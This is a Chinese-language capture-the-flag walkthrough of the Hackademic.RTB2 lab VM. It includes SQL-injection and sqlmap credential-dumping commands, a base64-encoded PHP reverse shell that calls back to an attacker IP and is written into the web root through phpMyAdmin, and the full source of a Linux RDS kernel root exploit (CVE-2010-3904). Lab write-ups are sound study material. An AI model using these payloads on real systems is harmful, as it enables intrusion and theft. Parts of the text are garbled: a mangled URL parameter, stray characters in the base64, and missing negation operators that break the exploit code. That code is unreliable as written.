


下载地址
https://download.vulnhub.com/hackademic/Hackademic.RTB2.zip
实战演练
下载完成后解压试用VMware虚拟机打开，可以看到登录界面，不需要登录。
对这个靶机系统，我使用kali进行测试。首先将两台虚拟机的网卡设置为桥接模式，kali系统使用netdiscover命令查找到靶机的IP为192.168.199.219
使用nmap命令查看靶机开放了什么端口，发现只开放80端口，看来入侵这个靶机系统是从web系统入手。
nmap -sV -p1-65535 192.168.199.219
在火狐浏览器输入http://192.168.199.219，查看页面源代码没有发现账号密码泄露，使用burpsuite进行测试
抓包，发送到repeater模块进行爆破
使用万能密码进行绕过’ or 1=1–’ ，发现html页面有一堆信息，对其进行解密
发送到decoder，进行解密
将二进制转换成ASCII码，网站：
http://www.ab126.com/goju/1711.html
 看到这几个数组，推测系统应该使用端口敲门服务
看到这几个数组，推测系统应该使用端口敲门服务
端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
在kali终端输入shell脚本
for port in 1001 1101 1011 1001;do nmap 192.168.199.219 -p $port ;done
接着继续用nmap
nmap -sS -sV -A 192.168.199.219
在火狐浏览器打开http://192.168.199.219:666
 由于这个web系统是joomla，我们使用joomscan来扫描
由于这个web系统是joomla，我们使用joomscan来扫描
joomscan -u http://192.168.199.219:666
____ _____ _____ __ __ ___ ___ __ _ _
(_ _)( _ )( _ )( \/ )/ __) / __) /__\ ( \( )
.-_)( )(_)( )(_)( ) ( \__ \( (__ /(__)\ ) (
\____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
(1337.today)
--=[OWASP JoomScan
+---++---==[Version : 0.0.7
+---++---==[Update Date : [2018/09/23]
+---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
--=[Code name : Self Challenge
@OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
Processing http://192.168.199.219:666 ...
[+] FireWall Detector
[++] Firewall not detected
[+] Detecting Joomla Version
[++] Joomla 1.5
[+] Core Joomla Vulnerability
[++] Joomla 1.5 Beta 2 - 'Search' Remote Code Execution
EDB : https://www.exploit-db.com/exploits/4212/
Joomla 1.5 Beta1/Beta2/RC1 - SQL Injection
CVE : CVE-2007-4781
EDB : https://www.exploit-db.com/exploits/4350/
Joomla 1.5.x - (Token) Remote Admin Change Password
CVE : CVE-2008-3681
EDB : https://www.exploit-db.com/exploits/6234/
Joomla 1.5.x - Cross-Site Scripting / Information Disclosure
CVE: CVE-2011-4909
EDB : https://www.exploit-db.com/exploits/33061/
Joomla 1.5.x - 404 Error Page Cross-Site Scripting
EDB : https://www.exploit-db.com/exploits/33378/
Joomla 1.5.12 - read/exec Remote files
EDB : https://www.exploit-db.com/exploits/11263/
Joomla 1.5.12 - connect back Exploit
EDB : https://www.exploit-db.com/exploits/11262/
Joomla Plugin 'tinybrowser' 1.5.12 - Arbitrary File Upload / Code Execution (Metasploit)
CVE : CVE-2011-4908
EDB : https://www.exploit-db.com/exploits/9926/
Joomla 1.5 - URL Redirecting
EDB : https://www.exploit-db.com/exploits/14722/
Joomla 1.5.x - SQL Error Information Disclosure
EDB : https://www.exploit-db.com/exploits/34955/
Joomla - Spam Mail Relay
EDB : https://www.exploit-db.com/exploits/15979/
Joomla 1.5/1.6 - JFilterInput Cross-Site Scripting Bypass
EDB : https://www.exploit-db.com/exploits/16091/
Joomla < 1.7.0 - Multiple Cross-Site Scripting Vulnerabilities
EDB : https://www.exploit-db.com/exploits/36176/
Joomla 1.5 < 3.4.5 - Object Injection Remote Command Execution
CVE : CVE-2015-8562
EDB : https://www.exploit-db.com/exploits/38977/
Joomla 1.0 < 3.4.5 - Object Injection 'x-forwarded-for' Header Remote Code Execution
CVE : CVE-2015-8562 , CVE-2015-8566
EDB : https://www.exploit-db.com/exploits/39033/
Joomla 1.5.0 Beta - 'pcltar.php' Remote File Inclusion
CVE : CVE-2007-2199
EDB : https://www.exploit-db.com/exploits/3781/
Joomla Component xstandard editor 1.5.8 - Local Directory Traversal
CVE : CVE-2009-0113
EDB : https://www.exploit-db.com/exploits/7691/
[+] Checking Directory Listing
[++] directory has directory listing :
http://192.168.199.219:666/tmp
[+] Checking apache info/status files
[++] Readable info/status files are not found
[+] admin finder
[++] Admin page : http://192.168.199.219:666/administrator/
[+] Checking robots.txt existing
[++] robots.txt is found
path : http://192.168.199.219:666/robots.txt
Interesting path found from robots.txt
http://192.168.199.219:666/administrator/
http://192.168.199.219:666/cache/
http://192.168.199.219:666/components/
http://192.168.199.219:666/images/
http://192.168.199.219:666/includes/
http://192.168.199.219:666/installation/
http://192.168.199.219:666/language/
http://192.168.199.219:666/libraries/
http://192.168.199.219:666/media/
http://192.168.199.219:666/modules/
http://192.168.199.219:666/plugins/
http://192.168.199.219:666/templates/
http://192.168.199.219:666/tmp/
http://192.168.199.219:666/xmlrpc/
[+] Finding common backup files name
[++] Backup files are not found
[+] Finding common log files name
[++] error log is not found
[+] Checking sensitive config.php.x file
[++] Readable config file is found
config file path : http://192.168.199.219:666/configuration.php-dist
Your Report : reports/192.168.199.219:666/
我们使用这个漏洞
Joomla Plugin 'tinybrowser' 1.5.12 - Arbitrary File Upload / Code Execution (Metasploit) CVE : CVE-2011-4908 EDB : https://www.exploit-db.com/exploits/9926/
使用msfconsole搜索joomla插件扫描poc
进行扫描，在浏览器打开下面的URL，可以发现section参数存在注入漏洞
/index.php?option=com_abc&view=abc&letter=AS§ionid='
使用sqlmap进行测试
sqlmap -u "http://192.168.199.219:666/index.php?option=com_abc&view=abc&letter=AS§ionid=1" --dbs
查看joomla数据库
sqlmap -u "http://192.168.199.219:666/index.php?option=com_abc&view=abc&letter=AS§ionid=1" -D joomla --tables
查看用户表
sqlmap -u "http://192.168.199.219:666/index.php?option=com_abc&view=abc&letter=AS§ionid=1" -D joomla -T jos_users --columns
查看用户密码
sqlmap -u "http://192.168.199.219:666/index.php?option=com_abc&view=abc&letter=AS§ionid=1" -D joomla -T jos_users -C username,password --dump
下载joomla的配置文件
使用获取到root密码进入phpmyadmin
写入测试文件
下载反弹shell
http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
将里面的PHP文件的<?php 和 ?>删除，修改IP为攻击机的IP，然后使用msfvenom进行base64加密
root@kali:/opt/php-reverse-shell-1.0# msfvenom -p generic/custom -e php/base64 -f raw payloadfile=shell.php [-] No platform was selected, choosing Msf::Module::Platform from the payload [-] No arch selected, selecting arch: x86 from the payload Found 1 compatible encoders Attempting to encode payload with 1 iterations of php/base64 php/base64 succeeded with size 4630 (iteration=0) php/base64 chosen with final size 4630 Payload size: 4630 bytes eval(base64_decode(CnNldF90aW1lX2xpbWl0ICgwKTsKJFZFUlNJT04gPSAiMS4wIjsKJGlwID0gJzE5Mi4xNjguMTk5LjE3Nic7ICAvLyBDSEFOR0UgVEhJUwokcG9ydCA9IDEyMzQ7ICAgICAgIC8vIENIQU5HRSBUSElTCiRjaHVua19zaXplID0gMTQwMDsKJHdyaXRlX2EgPSBudWxsOwokZXJyb3JfYSA9IG51bGw7CiRzaGVsbCA9ICd1bmFtZSAtYTsgdzsgaWQ7IC9iaW4vc2ggLWknOwokZGFlbW9uID0gMDsKJGRlYnVnID0gMDsKCi8vCi8vIERhZW1vbmlzZSBvdXJzZWxmIGlmIHBvc3NpYmxlIHRvIGF2b2lkIHpvbWJpZXMgbGF0ZXIKLy8KCi8vIHBjbnRsX2ZvcmsgaXMgaGFyZGx5IGV2ZXIgYXZhaWxhYmxlLCBidXQgd2lsbCBhbGxvdyB1cyB0byBkYWVtb25pc2UKLy8gb3VyIHBocCBwcm9jZXNzIGFuZCBhdm9pZCB6b21iaWVzLiAgV29ydGggYSB0cnkuLi4KaWYgKGZ1bmN0aW9uX2V4aXN0cygncGNudGxfZm9yaycpKSB7CgkvLyBGb3JrIGFuZCBoYXZlIHRoZSBwYXJlbnQgcHJvY2VzcyBleGl0CgkkcGlkID0gcGNudGxfZm9yaygpOwoJCglpZiAoJHBpZCA9PSAtMSkgewoJCXByaW50aXQoIkVSUk9SOiBDYW4ndCBmb3JrIik7CgkJZXhpdCgxKTsKCX0KCQoJaWYgKCRwaWQpIHsKCQlleGl0KDApOyAgLy8gUGFyZW50IGV4aXRzCgl9CgoJLy8gTWFrZSB0aGUgY3VycmVudCBwcm9jZXNzIGEgc2Vzc2lv.biBsZWFkZXIKCS8vIFdpbGwgb25seSBzdWNjZWVkIGlmIHdlIGZvcmtlZAoJaWYgKHBvc2l4X3NldHNpZCgpID09IC0xKSB7CgkJcHJpbnRpdCgiRXJyb3I6IENhbid0IHNldHNpZCgpIik7CgkJZXhpdCgxKTsKCX0KCgkkZGFlbW9uID0gMTsKfSBlbHNlIHsKCXByaW50aXQoIldBUk5JTkc6IEZhaWxlZCB0byBkYWVtb25pc2UuICBUaGlzIGlzIHF1aXRlIGNvbW1vbiBhbmQgbm90IGZhdGFsLiIpOwp9CgovLyBDaGFuZ2UgdG8gYSBzYWZlIGRpcmVjdG9yeQpjaGRpcigiLyIpOwoKLy8gUmVtb3ZlIGFueSB1bWFzayB3ZSBpbmhlcml0ZWQKdW1hc2soMCk7CgovLwovLyBEbyB0aGUgcmV2ZXJzZSBzaGVsbC4uLgovLwoKLy8gT3BlbiByZXZlcnNlIGNvbm5lY3Rpb24KJHNvY2sgPSBmc29ja29wZW4oJGlwLCAkcG9ydCwgJGVycm5vLCAkZXJyc3RyLCAzMCk7CmlmICghJHNvY2spIHsKCXByaW50aXQoIiRlcnJzdHIgKCRlcnJubykiKTsKCWV4aXQoMSk7Cn0KCi8vIFNwYXduIHNoZWxsIHByb2Nlc3MKJGRlc2NyaXB0b3JzcGVjID0gYXJyYXkoCiAgIDAgPT4gYXJyYXkoInBpcGUiLCAiciIpLCAgLy8gc3RkaW4gaXMgYSBwaXBlIHRoYXQgdGhlIGNoaWxkIHdpbGwgcmVhZCBmcm9tCiAgIDEgPT4gYXJyYXkoInBpcGUiLCAidyIpLCAgLy8gc3Rkb3V0IGlzIGEgcGlwZSB0aGF0IHRoZSBjaGl.sZCB3aWxsIHdyaXRlIHRvCiAgIDIgPT4gYXJyYXkoInBpcGUiLCAidyIpICAgLy8gc3RkZXJyIGlzIGEgcGlwZSB0aGF0IHRoZSBjaGlsZCB3aWxsIHdyaXRlIHRvCik7CgokcHJvY2VzcyA9IHByb2Nfb3Blbigkc2hlbGwsICRkZXNjcmlwdG9yc3BlYywgJHBpcGVzKTsKCmlmICghaXNfcmVzb3VyY2UoJHByb2Nlc3MpKSB7CglwcmludGl0KCJFUlJPUjogQ2FuJ3Qgc3Bhd24gc2hlbGwiKTsKCWV4aXQoMSk7Cn0KCi8vIFNldCBldmVyeXRoaW5nIHRvIG5vbi1ibG9ja2luZwovLyBSZWFzb246IE9jY3Npb25hbGx5IHJlYWRzIHdpbGwgYmxvY2ssIGV2ZW4gdGhvdWdoIHN0cmVhbV9zZWxlY3QgdGVsbHMgdXMgdGhleSB3b24ndApzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBlc1swXSwgMCk7CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcGVzWzFdLCAwKTsKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwZXNbMl0sIDApOwpzdHJlYW1fc2V0X2Jsb2NraW5nKCRzb2NrLCAwKTsKCnByaW50aXQoIlN1Y2Nlc3NmdWxseSBvcGVuZWQgcmV2ZXJzZSBzaGVsbCB0byAkaXA6JHBvcnQiKTsKCndoaWxlICgxKSB7CgkvLyBDaGVjayBmb3IgZW5kIG9mIFRDUCBjb25uZWN0aW9uCglpZiAoZmVvZigkc29jaykpIHsKCQlwcmludGl0KCJFUlJPUjogU2hlbGwgY29ubmVjdGlvbiB0ZXJtaW5hdGVkIik7CgkJYn.JlYWs7Cgl9CgoJLy8gQ2hlY2sgZm9yIGVuZCBvZiBTVERPVVQKCWlmIChmZW9mKCRwaXBlc1sxXSkpIHsKCQlwcmludGl0KCJFUlJPUjogU2hlbGwgcHJvY2VzcyB0ZXJtaW5hdGVkIik7CgkJYnJlYWs7Cgl9CgoJLy8gV2FpdCB1bnRpbCBhIGNvbW1hbmQgaXMgZW5kIGRvd24gJHNvY2ssIG9yIHNvbWUKCS8vIGNvbW1hbmQgb3V0cHV0IGlzIGF2YWlsYWJsZSBvbiBTVERPVVQgb3IgU1RERVJSCgkkcmVhZF9hID0gYXJyYXkoJHNvY2ssICRwaXBlc1sxXSwgJHBpcGVzWzJdKTsKCSRudW1fY2hhbmdlZF9zb2NrZXRzID0gc3RyZWFtX3NlbGVjdCgkcmVhZF9hLCAkd3JpdGVfYSwgJGVycm9yX2EsIG51bGwpOwoKCS8vIElmIHdlIGNhbiByZWFkIGZyb20gdGhlIFRDUCBzb2NrZXQsIHNlbmQKCS8vIGRhdGEgdG8gcHJvY2VzcydzIFNURElOCglpZiAoaW5fYXJyYXkoJHNvY2ssICRyZWFkX2EpKSB7CgkJaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU09DSyBSRUFEIik7CgkJJGlucHV0ID0gZnJlYWQoJHNvY2ssICRjaHVua19zaXplKTsKCQlpZiAoJGRlYnVnKSBwcmludGl0KCJTT0NLOiAkaW5wdXQiKTsKCQlmd3JpdGUoJHBpcGVzWzBdLCAkaW5wdXQpOwoJfQoKCS8vIElmIHdlIGNhbiByZWFkIGZyb20gdGhlIHByb2Nlc3MncyBTVERPVVQKCS8vIHNlbmQgZGF0YSBkb3duIHRjcCBjb25uZWN0a.W9uCglpZiAoaW5fYXJyYXkoJHBpcGVzWzFdLCAkcmVhZF9hKSkgewoJCWlmICgkZGVidWcpIHByaW50aXQoIlNURE9VVCBSRUFEIik7CgkJJGlucHV0ID0gZnJlYWQoJHBpcGVzWzFdLCAkY2h1bmtfc2l6ZSk7CgkJaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RET1VUOiAkaW5wdXQiKTsKCQlmd3JpdGUoJHNvY2ssICRpbnB1dCk7Cgl9CgoJLy8gSWYgd2UgY2FuIHJlYWQgZnJvbSB0aGUgcHJvY2VzcydzIFNUREVSUgoJLy8gc2VuZCBkYXRhIGRvd24gdGNwIGNvbm5lY3Rpb24KCWlmIChpbl9hcnJheSgkcGlwZXNbMl0sICRyZWFkX2EpKSB7CgkJaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RERVJSIFJFQUQiKTsKCQkkaW5wdXQgPSBmcmVhZCgkcGlwZXNbMl0sICRjaHVua19zaXplKTsKCQlpZiAoJGRlYnVnKSBwcmludGl0KCJTVERFUlI6ICRpbnB1dCIpOwoJCWZ3cml0ZSgkc29jaywgJGlucHV0KTsKCX0KfQoKZmNsb3NlKCRzb2NrKTsKZmNsb3NlKCRwaXBlc1swXSk7CmZjbG9zZSgkcGlwZXNbMV0pOwpmY2xvc2UoJHBpcGVzWzJdKTsKcHJvY19jbG9zZSgkcHJvY2Vzcyk7CgovLyBMaWtlIHByaW50LCBidXQgZG9lcyBub3RoaW5nIGlmIHdlJ3ZlIGRhZW1vbmlzZWQgb3Vyc2VsZgovLyAoSSBjYW4ndCBmaWd1cmUgb3V0IGhvdyB0byByZWRpcmVjdCBTVERPVVQgbGlrZSBhIHByb3BlciBk.YWVtb24pCmZ1bmN0aW9uIHByaW50aXQgKCRzdHJpbmcpIHsKCWlmICghJGRhZW1vbikgewoJCXByaW50ICIkc3RyaW5nXG4iOwoJfQp9Cgo));
然后在phpmyadmin执行SQL
select "<?php 上面加密的内容 ?>" into outfile "/var/www/shell.php"
kali使用NC监听1234端口,然后在浏览器输入http://192.168.199.219:666/shell.php就可以反弹shell。
nc -nvlp 1234
现在获取到反弹shell的权限是www权限，不是root的权限，通过Google发现该版本可以本地提权
https://www.exploit-db.com/exploits/15285
由于exploit-db的POC代码有点问题，修改一下，然后将代码保存到kali的http目录下进行下载
// source: http://www.vsecurity.com/resources/advisory/20101019-1/
/*
* Linux Kernel <= 2.6.36-rc8 RDS privilege escalation exploit
* CVE-2010-3904
* by Dan Rosenberg <drosenberg@vsecurity.com>
*
* Copyright 2010 Virtual Security Research, LLC
*
* The handling functions for sending and receiving RDS messages
* use unchecked __copy_*_user_inatomic functions without any
* access checks on user-provided pointers. As a result, by
* passing a kernel address as an iovec base address in recvmsg-style
* calls, a local user can overwrite arbitrary kernel memory, which
* can easily be used to escalate privileges to root. Alternatively,
* an arbitrary kernel read can be performed via sendmsg calls.
*
* This exploit is simple - it resolves a few kernel symbols,
* sets the security_ops to the default structure, then overwrites
* a function pointer (ptrace_traceme) in that structure to point
* to the payload. After triggering the payload, the original
* value is restored. Hard-coding the offset of this function
* pointer is a bit inelegant, but I wanted to keep it simple and
* architecture-independent (i.e. no inline assembly).
*
* The vulnerability is yet another example of why you shouldn't
* allow loading of random packet families unless you actually
* need them.
*
* Greets to spender, kees, taviso, hawkes, team lollerskaters,
* joberheide, bla, sts, and VSR
*
*/
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <errno.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/utsname.h>
#include <arpa/inet.h>
#include <sys/wait.h>
#define RECVPORT 5555
#define SENDPORT 6666
int prep_sock(int port)
{
int s, ret;
struct sockaddr_in addr;
s = socket(PF_RDS, SOCK_SEQPACKET, 0);
if(s < 0) {
printf("[*] Could not open socket.\n");
exit(-1);
}
memset(&addr, 0, sizeof(addr));
addr.sin_addr.s_addr = inet_addr("127.0.0.1");
addr.sin_family = AF_INET;
addr.sin_port = htons(port);
ret = bind(s, (struct sockaddr *)&addr, sizeof(addr));
if(ret < 0) {
printf("[*] Could not bind socket.\n");
exit(-1);
}
return s;
}
void get_message(unsigned long address, int sock)
{
recvfrom(sock, (void *)address, sizeof(void *), 0,
NULL, NULL);
}
void send_message(unsigned long value, int sock)
{
int size, ret;
struct sockaddr_in recvaddr;
struct msghdr msg;
struct iovec iov;
unsigned long buf;
memset(&recvaddr, 0, sizeof(recvaddr));
size = sizeof(recvaddr);
recvaddr.sin_port = htons(RECVPORT);
recvaddr.sin_family = AF_INET;
recvaddr.sin_addr.s_addr = inet_addr("127.0.0.1");
memset(&msg, 0, sizeof(msg));
msg.msg_name = &recvaddr;
msg.msg_namelen = sizeof(recvaddr);
msg.msg_iovlen = 1;
buf = value;
iov.iov_len = sizeof(buf);
iov.iov_base = &buf;
msg.msg_iov = &iov;
ret = sendmsg(sock, &msg, 0);
if(ret < 0) {
printf("[*] Something went wrong sending.\n");
exit(-1);
}
}
void write_to_mem(unsigned long addr, unsigned long value, int sendsock, int recvsock)
{
if(fork()) {
sleep(1);
send_message(value, sendsock);
exit(1);
}
else {
get_message(addr, recvsock);
wait(NULL);
}
}
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
int __attribute__((regparm(3)))
getroot(void * file, void * vma)
{
commit_creds(prepare_kernel_cred(0));
return -1;
}
/* thanks spender... */
unsigned long get_kernel_sym(char *name)
{
FILE *f;
unsigned long addr;
char dummy;
char sname[512];
struct utsname ver;
int ret;
int rep = 0;
int oldstyle = 0;
f = fopen("/proc/kallsyms", "r");
if (f == NULL) {
f = fopen("/proc/ksyms", "r");
if (f == NULL)
goto fallback;
oldstyle = 1;
}
repeat:
ret = 0;
while(ret = EOF) {
if (oldstyle)
ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
else {
ret = fscanf(f, "%p %s\n", (void **)&addr, sname);
if (ret == 2) {
char *p;
if (strstr(sname, "_O/") || strstr(sname, "_S."))
continue;
p = strrchr(sname, '_');
if (p > ((char *)sname + 5) && strncmp(p - 3, "smp", 3)) {
p = p - 4;
while (p > (char *)sname && *(p - 1) == '_')
p--;
*p = '\0';
}
}
}
if (ret == 0) {
fscanf(f, "%s\n", sname);
continue;
}
if (strcmp(name, sname)) {
fprintf(stdout, " [+] Resolved %s to %p%s\n", name, (void *)addr, rep ? " (via System.map)" : "");
fclose(f);
return addr;
}
}
fclose(f);
if (rep)
return 0;
fallback:
/* didn't find the symbol, let's retry with the System.map
dedicated to the pointlessness of Russell Coker's SELinux
test machine (why does he keep upgrading the kernel if
"all necessary security can be provided by SE Linux"?)
*/
uname(&ver);
if (strncmp(ver.release, "2.6", 3))
oldstyle = 1;
sprintf(sname, "/boot/System.map-%s", ver.release);
f = fopen(sname, "r");
if (f == NULL)
return 0;
rep = 1;
goto repeat;
}
int main(int argc, char * argv[])
{
unsigned long sec_ops, def_ops, cap_ptrace, target;
int sendsock, recvsock;
struct utsname ver;
printf("[*] Linux kernel >= 2.6.30 RDS socket exploit\n");
printf("[*] by Dan Rosenberg\n");
uname(&ver);
if(strncmp(ver.release, "2.6.3", 5)) {
printf("[*] Your kernel is not vulnerable.\n");
return -1;
}
/* Resolve addresses of relevant symbols */
printf("[*] Resolving kernel addresses...\n");
sec_ops = get_kernel_sym("security_ops");
def_ops = get_kernel_sym("default_security_ops");
cap_ptrace = get_kernel_sym("cap_ptrace_traceme");
commit_creds = (_commit_creds) get_kernel_sym("commit_creds");
prepare_kernel_cred = (_prepare_kernel_cred) get_kernel_sym("prepare_kernel_cred");
if(sec_ops || def_ops || cap_ptrace || commit_creds || prepare_kernel_cred) {
printf("[*] Failed to resolve kernel symbols.\n");
return -1;
}
/* Calculate target */
target = def_ops + sizeof(void *) + ((11 + sizeof(void *)) & ~(sizeof(void *) - 1));
sendsock = prep_sock(SENDPORT);
recvsock = prep_sock(RECVPORT);
/* Reset security ops */
printf("[*] Overwriting security ops...\n");
write_to_mem(sec_ops, def_ops, sendsock, recvsock);
/* Overwrite ptrace_traceme security op fptr */
printf("[*] Overwriting function pointer...\n");
write_to_mem(target, (unsigned long)&getroot, sendsock, recvsock);
/* Trigger the payload */
printf("[*] Triggering payload...\n");
ptrace(PTRACE_TRACEME, 1, NULL, NULL);
/* Restore the ptrace_traceme security op */
printf("[*] Restoring function pointer...\n");
write_to_mem(target, cap_ptrace, sendsock, recvsock);
if(getuid()) {
printf("[*] Exploit failed to get root.\n");
return -1;
}
printf("[*] Got root\n");
execl("/bin/sh", "sh", NULL);
}
在root目录下找到key.txt
由于终端显示不了全部的key，干脆直接passwd直接系统查看
对这些内容进行base64转换成图片就得到下面图片
